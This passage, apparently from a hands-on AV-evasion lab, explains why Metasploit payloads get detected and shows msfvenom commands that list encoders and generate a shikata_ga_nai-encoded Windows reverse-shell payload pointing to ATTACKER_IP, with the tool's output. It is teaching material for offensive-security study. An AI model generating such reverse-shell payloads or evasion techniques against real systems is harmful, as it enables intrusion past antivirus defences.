 #### Why do we Need to Know About Encoding and Encryption?

AV vendors implement their AV software to blocklist most public tools  (such as Metasploit and others) using static or dynamic detection  techniques. Therefore, without modifying the shellcode generated by these public tools, the detection rate for your dropper is high.

Encoding and encryption can be used in AV evasion techniques where we encode and/or encrypt shellcode used in a  dropper to hide it from AV software during the runtime. Also, the two  techniques can be used not only to hide the shellcode but also  functions, variables, etc. In this room, we mainly focus on encrypting  the shellcode to evade Windows Defender.

# Shellcode Encoding and Encryption

## Encode using MSFVenom

Public Tools such as Metasploit provide encoding and encryption features. However, AV vendors are aware of the way these tools build their payloads and take  measures to detect them. If you try using such features out of the box,  chances are your payload will be detected as soon as the file touches  the victim's disk. 

Let's generate a simple payload with this method to prove that point. First of all, you can list all of the encoders available to msfvenom with the following command:

- **Listing Encoders within the Metasploit Framework**

```shell-session
user@AttackBox$ msfvenom --list encoders | grep excellent
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
        
```

We can indicate we want to use the `shikata_ga_nai` encoder with the `-e`(encoder) switch and then specify we want to encode the payload three times with the `-i` (iterations) switch:

- **Encoding using the Metasploit Framework (Shikata_ga_nai)**

```shell-session
user@AttackBox$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai chosen with final size 422
Payload size: 422 bytes
Final size of csharp file: 2170 bytes
        
```

If we try uploading our newly generated payload to our test machine, the AV will instantly flag it before we even get a chance to execute it:
